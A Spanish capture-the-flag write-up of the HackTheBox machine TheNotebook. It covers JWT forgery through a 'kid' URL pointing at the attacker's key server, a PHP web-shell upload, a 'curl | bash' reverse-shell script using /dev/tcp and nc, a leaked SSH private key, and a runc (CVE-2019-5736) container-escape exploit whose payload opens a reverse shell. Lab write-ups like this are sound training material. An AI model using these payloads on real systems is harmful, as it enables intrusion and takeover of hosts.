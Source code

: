```yaml
---
layout      : post
title       : "HackTheBox - TheNotebook"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320banner.png
category    : [ htb ]
tags        : [ docker, JWT, ssh-keys, runc, sudo ]
---
```

Máquina Linux nivel medio. Exploraremos el mundo de los **JSON Web Tokens** para ingresar a una web con permisos administrativos. Jugaremos con llaves **SSH** y romperemos el siempre fiel **Docker** mediante un **CVE** que permite sobreescribir el contenido del binario **/bin/sh** con lo que queramos.

![320thenotebookHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320thenotebookHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [mostwanted002](https://www.hackthebox.eu/profile/120514).

Se ave cina...

Hola, nos enfrentaremos a un inicio muy lindo. Encontraremos un sitio web que nos permite guardar nuestras notas y nada más :O Pero echándole ojo a la cookie veremos algo interesante, es generada mediante `JSON Web Tokens` con una estructura peculiar, la llave con la que lo hace esta siendo llamada mediante una **URL** y cada usuario lleva indicado si es o no admin, aprovecharemos esto para crear un nuevo token que llame la llave de nuestro servidor y también otorgándole permisos a nuestro usuario de ser admin. Esto para finalmente lograr subir archivos en el **Admin Panel** yyy claramente subiremos una Web Shell para obtener una sesión en la máquina como `www-data`.

Cree un script para automatizar todo este proceso y obtener **RCE** en la terminal, échenle un ojazo:

* [RCE_phpfile.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py).

Enumerando nos toparemos con las llaves `SSH` del usuario `noah`, usaremos su llave privada para obtener una sesión en la máquina sin necesitar la contraseña.

Validando los permisos de administrador que tenemos sobre el sistema, nos daremos cuenta de que podemos ejecutar un contenedor con `Docker`, validando la versión del propio **Docker** y buscando vulnerabilidades relacionadas, encontraremos una que nos permite modificar el contenido del binario `runC` (que se ejecuta siempre que llamemos a **Docker**) y que al mismo tiempo modifica el binario `/bin/sh` con nuestro **payload**, para una vez llamemos una Shell con **/bin/sh** dentro del contenedor se ejecute el payload... Usaremos esto para conseguir una Shell como el usuario `root`, a darleeeee.

...

#### Clasificación de la máquina según la gentesita

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 80%;"/>

Vulns conocidas, le cuesta mucho llegar a ser real (pero lo intenta).

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo mostrar lo que hice.

...

Nuestro camino a donde gloria:

1. [Enumeración](#enumeracion).
2. [Explotación](#explotacion).
3. [Movimiento Lateral **noah**](#movimiento-lateral-noah).
4. [Escalada de privilegios](#escalada-de-privilegios).

...

## Enumeración [#](#enumeracion) {#enumeracion}

Inicialmente haremos un escaneo de puertos para saber que servicios esta ejecutando la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.230 -oG initScan
```

| Parámetro  | Descripción   |
| -----------|:------------- |
| -p-        | Escanea todos los 65535.                                                                                  |
| --open     | Solo los puertos que están abiertos.                                                                      |
| -v         | Permite ver en consola lo que va encontrando.                                                             |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función **extractPorts**](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/magic/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
# Nmap 7.80 scan initiated Mon Mar 15 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.230
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.230 ()   Status: Up
Host: 10.10.10.230 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Mon Mar 15 25:25:25 2021 -- 1 IP address (1 host up) scanned in 112.60 seconds
```

A ver, que tenemos...

| Puerto | Descripción |
| ------ | :---------- |
| 22     | **[SSH](https://es.wikipedia.org/wiki/Secure_Shell)**: Acceso a un servidor remoto por medio de un canal seguro. |
| 80     | **[HTTP](https://es.wikipedia.org/wiki/Protocolo_de_transferencia_de_hipertexto)**: Servidor web.                |

Ahora hagamos un escaneo de scripts y versiones con base en cada servicio (puerto) encontrado, así validamos a profundidad cada uno:

```bash
❭ nmap -p 22,80 -sC -sV 10.10.10.230 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
❭ cat portScan 
# Nmap 7.80 scan initiated Mon Mar 15 25:25:25 2021 as: nmap -p 22,80 -sC -sV -oN portScan 10.10.10.230
Nmap scan report for 10.10.10.230
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar 15 25:25:25 2021 -- 1 IP address (1 host up) scanned in 11.66 seconds
```

Obtenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 22     | SSH      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80     | HTTP     | nginx 1.14.0                    |

A darle a ver por donde podemos entrar.

...

### Puerto 80 [×](#puerto-80) {#puerto-80}

![320page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80.png)

Un lugar para guardar mis notas o pensamientos... Podemos registrarnos e ingresar al sitio, después de este paso, en el dashboard tenemos:

![320page80_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_dashboard.png)

Hagamos caso y veamos las notas: (disculparán el montón de pruebas)

![320page80_notes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_notes.png)

Algo raro que note fue la URL, no sé, poco usual...

---

### 🌋 ¡Entramos en un Rabbit hole, cuidaoooo!

Después de un rato enumerando, probando, jugando con la URL, etc. Nada. Haciendo fuzz encontramos un directorio llamado `/admin`:

```bash
❭ dirsearch.py -u http://10.10.10.230 -q
403 -    9B  - http://10.10.10.230/admin
200 -    1KB - http://10.10.10.230/login
302 -  209B  - http://10.10.10.230/logout  ->  http://10.10.10.230/
200 -    1KB - http://10.10.10.230/register
```

Pero tenemos un código de estado `403` que nos indica la prohibición completa hacia ese recurso :P Pero jugando con ese mismo recurso encontramos otros directorios:

> [Status code **403 Forbidden**](https://mediatemple.net/community/products/dv/204644980/why-am-i-seeing-a-403-forbidden-error-message).

```bash
❭ dirsearch.py -u http://10.10.10.230/admin -w /opt/SecLists/Discovery/Web-Content/raft-small-directories.txt -q
403 -    9B  - http://10.10.10.230/admin/upload
200 -    3KB - http://10.10.10.230/admin/notes
```

Curioso, tenemos prohibido el acceso al recurso `/a, pero no al `/admin/notes`, veamos si podemos obtener algo de ahí:

![320page80_admin_notes](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes.png)

Jmm, intentando agregar notas siempre obtenemos "`Internal Server Error`", peeero si nos fijamos en la URL, a veces cambia como si hiciera la inserción de la nota, veamos un ejemplo rápidamente:

![320page80_admin_notes_add_preview](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes_add_preview.png)

![320page80_admin_notes_add_URL](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes_add_URL.png)

En la URL se agrega un numero y si validamos si se creó la nota:

![320page80_admin_notes_created](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_notes_created.png)

Y si, se crea... Pero no logre hacer nada con esto :P

---

### 🗻 Salimos del Rabbit hole

Dando vueltas y revisando cositas, nos damos cuenta de algo lindo en nuestra cookie: (podemos verla de varias formas, pero como lo divide el navegador esta bien para que se entienda mejor lo que haremos)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_cookie.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Es un formato que había usado en alguna ocasión y de una me acordé de que trataba (también por el inicio de la cadena (`ey`, que en `base64` es `{"` (o sea el inicio de un JSON e.e))... 

[JSON Web Tokens](https://jwt.io/introduction), que sirven para transmitir información mediante objetos `JSON` de manera segura, esto gracias a que son firmados digitalmente con llaves privadas o públicas.

* [Qué es **JSON Token** y como funciona](https://openwebinars.net/blog/que-es-json-web-token-y-como-funciona/).

Entonces, podemos usar la herramienta [jwt.io](https://jwt.io/) para jugar con estos tokens, así que, tomamos nuestra cookie `auth` y la pegamos a la izquierda:

![320google_jwt_original_output](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_original_output.png)

Algo lindo de esta herramienta es que nos separa por colores (y puntos) las partes del token (cada parte del array que nos mostró el navegador). Cada apartado del token esta en `base64`, la página nos lo decodea y a la derecha tenemos el resultado... (Todo esto podemos cambiarlo, pero antes veamos que hay en cada apartado)

**Header**:

Vemos el tipo de token y el tipo de algoritmo usado yyyyy podemos deducir que esta tomando la llave privada servida en el puerto `7070` del localhost llamada `privKey.key`.

**Payload (Data)**:

Tenemos info del usuario y un campo extraño que hace alusión a algo sobre el administrador y en nuestro caso esta apagado... Interesante.

**Verify signature**:

Acá va la llave privada del host.

...

## Explotación [#](#explotacion) {#explotacion}

Bien, como podemos aprovecharnos de esto...

Sabemos que esta usando una URL para leer la llave privada que usa contra el `JWT`, entonces:

1. Generaremos una llave privada.
2. hostearemos un servidor web. 
3. Y en el **header** pondremos nuestra URL llamando la llave, esto para que la web tome nuestra llave y podamos modificar el token.

En el apartado **payload (data)** aprovecharemos el ítem que habla del `admin` para alterarlo a `true` y ver si nos asignan como administradores del sistema de notas.

Y finalmente agregaremos nuestra llave privada en **verify signature**.

Démosle. Generemos la llave privada, me guie de este [recurso](https://serverfault.com/questions/224122/what-is-crt-and-key-files-and-how-to-generate-them#answer-224127):

**Header:**

```bash
❭ openssl genrsa 2048 > palaKeypa.key
# pero despues de generarla, copiarla y pegarla en la web
# vemos que es más pequeña que la que ya estaba originalmetn en nusetro token,
# asi que le modificamos el tamaño al doble
```

```bash
❭ openssl genrsa 4096 > palaKeypa.key
Generating RSA private key, 4096 bit long modulus (2 primes)
.................................................++++
......................................................................................++++
e is 65537 (0x010001)
❭ chmod 400 palaKeypa.key
```

Entonces, ahora modificamos el **header**: (se puede hacer en la Shell o en la web, para que sea más legible se las mostraré en la web)

```json
{"typ": "JWT","alg": "RS256","kid": "http://10.10.14.194:8000/palaKeypa.key"}
```

Lo pasamos a `base64`:

```bash
❭ echo '{"typ": "JWT","alg": "RS256","kid": "http://10.10.14.194:8000/palaKeypa.key"}' | base64 
eyJ0eXAiOiAiSldUIiwiYWxnIjogIlJTMjU2Iiwia2lkIjogImh0dHA6Ly8xMC4xMC4xNC4xOTQ6
ODAwMC9wYWxhS2V5cGEua2V5In0K
```

Y pegamos en la web (pegado y sin `=`)

![320google_jwt_headerPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_headerPART.png)

**Payload (data):**

```json
{"username": "lanz","email": "lanz@lanz.htb","admin_cap": true}
```

```bash
❭ echo '{"username": "lanz","email": "lanz@lanz.htb","admin_cap": true}' | base64
eyJ1c2VybmFtZSI6ICJsYW56IiwiZW1haWwiOiAibGFuekBsYW56Lmh0YiIsImFkbWluX2NhcCI6
IHRydWV9Cg==
```

![320google_jwt_payloadPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_payloadPART.png)

**Verify signature:**

Copiamos la llave que generamos (con todo y `--`) y la pegamos en la web en esta parte:

![320google_jwt_signPART](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_jwt_signPART.png)

Y listos, tenemos nuestro token generado. Ahora la prueba de fuego.

Hosteamos el servidor web:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Tomamos el token, editamos nuestra cookie `auth` por la nueva y simplemente refrescamos la página. Yyyyyyyyyy obtenemos:

```bash
...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.230 - - [15/Mar/2021 25:25:25] "GET /palaKeypa.key HTTP/1.1" 200 -
```

![320page80_weareasadminLOL](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_weareasadminLOL.png)

¿Ves algo distinto? e.e (Tamos dentro como **admin** fathEEEEEEer, muy lindo esto)

Veamos el nuevo apartado `Admin Panel`:

![320page80_admin_panel](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel.png)

![320page80_admin_panel_uploadFiles](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_uploadFiles.png)

Opa, podemos subir archivos y parece que de cualquier tipo, probemos a subir de una un archivo `.php` para generar ejecución remota de comandos. Veamos si nos da algún problema...

```bash
❭ cat toRiCE.php 
<?php $coma=shell_exec($_GET['xmd']); echo $coma; ?>
```

El script simplemente indica: que recibirá una petición mediante el método `GET` y la guardara en la variable `xmd`, esta a su vez, hará una petición al sistema mediante `shell_exec` y el resultado del comando ejecutado se guardará en la variable `$coma`, al final simplemente mostramos ese contenido. Subámoslo, seleccionamos el archivo y damos clic en `Save`, nos devuelve:

![320page80_admin_panel_up_RCEfile](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_up_RCEfile.png)

Veamos el archivo que se subió y probemos de una vez por ejemplo, ver que usuario somos y el hostname:

![320page80_admin_panel_RCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320page80_admin_panel_RCE.png)

Perfecto, tenemos ejecución remota de comandos, entablémonos una Reverse Shell...

(El archivo es borrado rápidamente así que debemos ser igual o más rápidos)

Probando y fallando podemos generar un archivo `.sh` que contenga lo que queramos ejecutar en el sistema y simplemente como comando en la web le decimos que haga un `cURL` hacia nuestro script y que a su vez interprete y ejecute el contenido:

```bash
❭ cat rev.sh 
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.194/4433 0>&1"
#rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1 | nc 10.10.14.194 4433 >/tmp/f
```

Colocamos este archivo en la ruta en que tenemos el servidor de `Python` activo, así evitamos servir otro puerto :P 

Nos ponemos en escucha con `netcat`:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y lanzamos como `payload` para validar que tenemos comunicación y ve nuestro código:

```html
http://10.10.10.230/f34242c373ba88e18f73fd2e0eccd648.php?xmd=curl http://10.10.14.194:8000/rev.sh
```

Y simplemente le agregamos `| bash` para que interprete el contenido del archivo y lo ejecute en el sistema:

```html
http://10.10.10.230/f34242c373ba88e18f73fd2e0eccd648.php?xmd=curl http://10.10.14.194:8000/rev.sh | bash
```

YYYYYYYyyyyYye.e:

![320bash_revSH_www](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_revSH_www.png)

Tamos dentro de la máquina, peeeerfectowowowo.

...

Es un poco MEHH el estar creando el token, modificando la cookie y todo eso manualmente, así que aprovechemos la oportunidad para automatizar toooodo y obtener ejecución de comandos simplemente pasándole el comando que queremos ejecutar a un **script**:

* [RCE_phpfile.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py).

Ahora sí, sigamos.

...

## Movimiento lateral www-data -> noah [#](#movimiento-lateral-noah) {#movimiento-lateral-noah}

Enumerando el directorio `/var/backups` encontramos un archivo algo llamativo:

```bash
www-data@thenotebook:/var/backups$ ls -la
total 60
drwxr-xr-x  2 root root  4096 Mar 22 08:20 .
drwxr-xr-x 14 root root  4096 Feb 12 06:52 ..
-rw-r--r--  1 root root 33252 Feb 24 08:53 apt.extended_states.0
-rw-r--r--  1 root root  3609 Feb 23 08:58 apt.extended_states.1.gz
-rw-r--r--  1 root root  3621 Feb 12 06:52 apt.extended_states.2.gz
-rw-r--r--  1 root root  4373 Feb 17 09:02 home.tar.gz
```

Copiemos el archivo comprimido e intentemos ver su contenido:

```bash
www-data@thenotebook:/var/backups$ cp home.tar.gz /dev/shm/
www-data@thenotebook:/var/backups$ cd !$
cd /dev/shm/
www-data@thenotebook:/dev/shm$ ls
home.tar.gz
www-data@thenotebook:/dev/shm$ gzip -d home.tar.gz 
www-data@thenotebook:/dev/shm$ ls
home.tar
www-data@thenotebook:/dev/shm$ tar xvf home.tar 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

Opa, el backup del `/home` de un usuario llamado `noah` (efectivamente en la máquina existe), tenemos un par de llaves `SSH`, copiémonos el contenido de la llave privada `(id_rsa)` y creémonos un archivo con su contenido en nuestra máquina, esto para entrar por medio de `SSH` sin tener que ingresar contraseña:

* [Info SSH keys (Español)](https://wiki.archlinux.org/title/SSH_keys_(Espa%C3%B1ol)).

---

```bash
❭ cat key_noah 
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAyqucvz6P/EEQbdf8cA44GkEjCc3QnAyssED3qq9Pz1LxEN04
HbhhDfFxK+EDWK4ykk0g5MvBQckcxAs31mNnu+UClYLMb4YXGvriwCrtrHo/ulwT
rLymqVzxjEbLUkIgjZNW49ABwi2pDfzoXnij9JK8s3ijIo+w/0RqHzAfgS3Y7t+b
...
❭ chmod 400 key_noah
```

Y ejecutamos hacia la máquina:

```bash
❭ ssh noah@10.10.10.230 -i key_noah 
load pubkey "key_noah": invalid format
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-135-generic x86_64)
...
```

![320bash_SSH_noah](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_SSH_noah.png)

Nice, somos `noah` y tenemos acceso a la flag `user.txt`.

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si vemos los permisos que tenemos como `root`, encontramos:

```bash
noah@thenotebook:/dev/shm$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

El usuario `noah` puede ejecutar comandos inicialmente en el contenedor `webapp-dev01` y dado el caso en todos los contenedores que empiecen con `webapp-dev01`, veamos que hay dentro, ejecutemos una `bash` en el container:

```bash
noah@thenotebook:/dev/shm$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@c8d1914f59cd:/opt/webapp# ls -la
total 52
drwxr-xr-x 1 root root 4096 Feb 12 07:30 .
drwxr-xr-x 1 root root 4096 Feb 12 07:30 ..
drwxr-xr-x 1 root root 4096 Feb 12 07:30 __pycache__
drwxr-xr-x 3 root root 4096 Nov 18 13:27 admin
-rw-r--r-- 1 root root 3303 Nov 16 19:43 create_db.py
-rw-r--r-- 1 root root 9517 Feb 11 15:00 main.py
-rw------- 1 root root 3247 Feb 11 15:09 privKey.key
-rw-r--r-- 1 root root   78 Feb 12 07:12 requirements.txt
drwxr-xr-x 3 root root 4096 Nov 19 10:57 static
drwxr-xr-x 2 root root 4096 Nov 18 13:47 templates
-rw-r--r-- 1 root root   20 Nov 20 09:18 webapp.tar.gz
```

Bien, tenemos la estructura y todos los archivos que usa para el servidor web de las notas... Pero enumerando no encontramos nada relevante, así que regresemos y volvamos a enumerar...

Si vemos la versión actual de Docker obtenemos la `18.06.0-ce`:

```bash
noah@thenotebook:~$ docker -v
Docker version 18.06.0-ce, build 0ffa825
```

Buscando vulnerabilidades sobre ella, encontramos el CVE [CVE-2019-5736](https://www.cvedetails.com/cve/CVE-2019-5736/):

* [**Docker 18.06.0-ce** Vulnerabilities](https://www.cvedetails.com/vulnerability-list/vendor_id-13534/product_id-28125/Docker-Docker.html).

![320google_CVE_docker18-16-0-ce](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_CVE_docker18-16-0-ce.png)

Nos indica que el binario `runc` (que se ejecuta cuando <<ejecutamos>> `Docker`) es vulnerable a ser sobreescrito y por consiguiente indicarle comandos para que sean ejecutados como el usuario `root` en la máquina host :O

> `runC`: ["command-line tool for spawning and running containers"](https://opensource.com/life/16/8/runc-little-container-engine-could).

Nice, busquemos referencias de exploits a ver cuál podemos usar:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320google_CVE_docker18-16-0-ce_githubLIST.png" style="display: block; margin-left: auto; margin-right: auto; width: 100%;"/>

Tenemos varios, dándole unos ojazos, el más sencillo de entender es el de [Frichetten](https://github.com/Frichetten/CVE-2019-5736-PoC), esta hecho en `.go` y solo debemos mover un archivo al sistema, metámosle candela:

* [https://github.com/Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC).

Lo clonamos en nuestra máquina y vemos el archivo `main.go`, explorándolo simplemente debemos modificar la variable `payload`, como prueba haré que nos envíe el resultado del comando `hostname` a nuestro listener en `nc`:

```go
...
// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n hostname | nc 10.10.14.194 4433"
...
```

Bajando un poco (y leyendo el repo) nos indica lo que hará. Tomará el binario `/bin/sh` y lo sobreescribirá para que una vez sea ejecutado `Docker` este llame el binario `runC` y este a su vez sobreescriba el contenido del binario `/bin/sh` para que se transforme en el contenido de nuestra variable `payload` (o sea el comando `hostname` en este caso). Pero veremos la ejecución del payload una vez hagamos el llamado del binario `/bin/sh` (que en esta parte ya estaría modificado) en el contenedor (para esto necesitaremos otra Shell con el usuario `noah`, para primero ejecutar el binario `main` y por segundo ejecutar la explotación (el binario `/bin/sh`)).

Listo, guardamos y creamos el binario:

```bash
❭ go build main.go #Genera el binario "main"
❭ ls
main  main.go  README.md  screenshots
```

Listos, ahora podemos subirlo al contenedor, creemos un servidor en `Python` y de paso pongámonos en escucha con `nc`:

```py
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

En la máquina víctima indicamos:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@c6d778ee6b03:/opt/webapp# cd /dev/shm
# Descargamos el binario a la máquina
root@c6d778ee6b03:/dev/shm# wget http://10.10.14.194:8000/main
...
root@c6d778ee6b03:/dev/shm# ls -la
total 2220
drwxrwxrwt 2 root root      60 Mar 16 19:58 .
drwxr-xr-x 5 root root     360 Mar 16 19:16 ..
-rw-r--r-- 1 root root 2269904 Mar 16 19:42 main
# Damos permisos de ejecución
root@c6d778ee6b03:/dev/shm# chmod +x main
root@c6d778ee6b03:/dev/shm# ls -la
total 2220
drwxrwxrwt 2 root root      60 Mar 16 19:58 .
drwxr-xr-x 5 root root     360 Mar 16 19:16 ..
-rwxr-xr-x 1 root root 2269904 Mar 16 19:42 main
```

Acá estuve perdido un rato, ya que no lograba ejecutarlo:

```bash
root@c6d778ee6b03:/dev/shm# ./main
bash: ./main: Permission denied
root@c6d778ee6b03:/dev/shm# bash main 
main: main: cannot execute binary file
...
```

Dándole vueltas, desistí de ese script y usé otros repositorios, pero no conseguía ejecutar NADA (¿ya puedes imaginar por qué?)...

Pues resulta que si hacemos el mismo procedimiento, pero en el directorio  `/tmp` o incluso en el directorio `/opt/webapp`, ahí si me permite ejecutarlo 🙃 

Claramente por permisos que no entiendo, pero pues X:

```bash
root@c6d778ee6b03:/dev/shm# mv main /tmp/
root@c6d778ee6b03:/dev/shm# cd /tmp/
root@c6d778ee6b03:/tmp# ls -la
total 2264
drwxrwxrwt 1 root root    4096 Mar 16 20:05 .
drwxr-xr-x 1 root root    4096 Mar 16 19:16 ..
-rwxr-xr-x 1 root root 2269904 Mar 16 19:42 main
-rw-r--r-- 1 root root      78 Feb 12 07:12 requirements.txt
-rw-r--r-- 1 root root   32768 Feb 12 07:30 webapp.db
```

Ejecutamos:

```bash
root@c6d778ee6b03:/tmp# ./main 
[+] Overwritten /bin/sh successfully
```

Y se queda a la espera de la ejecución del binario `/bin/sh`, así que abrimos la otra sesión con `SSH` y volvemos a ejecutar el archivo `main`, pero ahora en la nueva Shell indicamos:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh
```

Y en la sesión donde esta corriendo el binario `main` obtenemos:

```bash
root@867e71dd120c:/tmp# ./main 
[+] Overwritten /bin/sh successfully
[+] Found the PID: 66
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc0000aa8a0}
root@867e71dd120c:/tmp# 
```

Yyyy en nuestro listener:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
10.10.10.230: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.194] from (UNKNOWN) [10.10.10.230] 51878
thenotebook
```

Perfectoooo, estamos hablando con el `host`, entablémonos una Reverse Shell:

```go
...
var payload = "#!/bin/bash \n bash -c 'bash -i >& /dev/tcp/10.10.14.194/4433 0>&1 &'"
...
```

1. Compilamos.
2. Subimos binario `main` al contenedor.
3. Abrimos otra sesión `SSH`.
4. Ejecutamos el binario `main`.
5. Ejecutamos el binario `/bin/sh` en la nueva sesión.
6. Obtenemos nuestra Reverse Sheeeeeeeeeeeeeeell.

![320bash_revSH_root](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320bash_revSH_root.png)

Perfectooooooooooooooooooooooooooo, hacemos tratamiento de la `TTY` y procedemos a ver las flags:

* [Savitar te explica el tratamiento de la **TTY**](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

![320flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/thenotebook/320flags.png)

...

Linda máquina, me fascino el inicio, por lo tanto me cree un script para que haga toooodo el proceso de cambiar la cookie, subir el archivo yyy ejecutar los comandos (:

* [**RCE** mediante el archivo **.php**](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/thenotebook/RCE_phpfile.py)

Muy loco el tema de `Docker` y `runc`, y casi muero intentando ejecutar el binario en esa ruta :( Perooo bueno, se solucionó.

Muchas gracias por pasarse y leerse este montón de texto :P Y nada, a seguir rompiendo todo (:
